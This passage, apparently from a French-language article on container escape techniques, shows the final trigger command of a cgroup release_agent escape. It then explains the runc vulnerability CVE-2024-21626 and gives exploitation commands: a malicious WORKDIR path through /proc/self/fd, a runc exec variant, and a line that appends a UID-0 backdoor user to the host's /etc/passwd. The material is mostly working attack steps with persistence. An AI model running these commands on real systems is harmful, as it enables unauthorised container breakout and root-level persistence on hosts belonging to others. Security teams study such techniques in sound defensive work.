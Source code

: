 5. **Déclenchement de l'exploitation** :
    

```bash
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

Cette exploitation fonctionne car le noyau Linux exécute automatiquement le programme spécifié dans release\_agent avec des privilèges root complets lorsque le dernier processus quitte le cgroup et que notify\_on\_release est activé.

## Technique #2 : CVE-2024-21626 - Exploitation Critique de runc

### Analyse Technique de la Vulnérabilité

**CVE-2024-21626** (CVSS 8.6) représente l'une des vulnérabilités d'évasion de conteneurs les plus critiques de 2024, affectant toutes les versions de runc ≤ 1.1.11. Cette faille résulte d'une **fuite interne de descripteur de fichier** dans runc, le composant core utilisé par Docker, Kubernetes et autres technologies de containerisation.

![Kubernetes container runtime architecture showing containerd and runc interactions, emphasizing security features like namespaces isolation and resource access limits to prevent container escape](https://pplx-res.cloudinary.com/image/upload/v1754762628/pplx_project_search_images/0528fcbd2db1fc6956397c0b4da0684f8c5aea3f.png align="left")

Architecture du runtime de conteneur Kubernetes montrant les interactions entre containerd et runc, en mettant l'accent sur les fonctionnalités de sécurité comme l'isolation des espaces de noms et les limites d'accès aux ressources pour empêcher l'évasion des conteneurs.

Le **mécanisme d'exploitation** se décompose comme suit :

1. **runc maintient une poignée vers** `/sys/fs/cgroup` de l'hôte accessible via `/proc/self/fd/` (généralement descripteurs 7, 8 ou 9)
    
2. **L'attaquant spécifie ce descripteur comme répertoire de travail** dans la directive WORKDIR ou via runc exec
    
3. **Le processus PID 1 du conteneur obtient un répertoire de travail dans l'espace de noms de fichiers de l'hôte**, brisant l'isolation chroot
    

### Exploitation Pratique

```bash
# Vérification de la version runc vulnérable
runc --version

# Exploitation via directive WORKDIR malveillante dans Dockerfile
WORKDIR /proc/self/fd/7/../../..

# Alternative avec runc exec pour exploitation post-compromission
runc exec --cwd /proc/self/fd/7/../../../ container_id /bin/bash

# Accès direct au système de fichiers de l'hôte
ls -la /etc/passwd  # Fichier de l'hôte accessible
echo "backdoor_user:$6$salt$hash:0:0::/root:/bin/bash" >> /etc/passwd
```
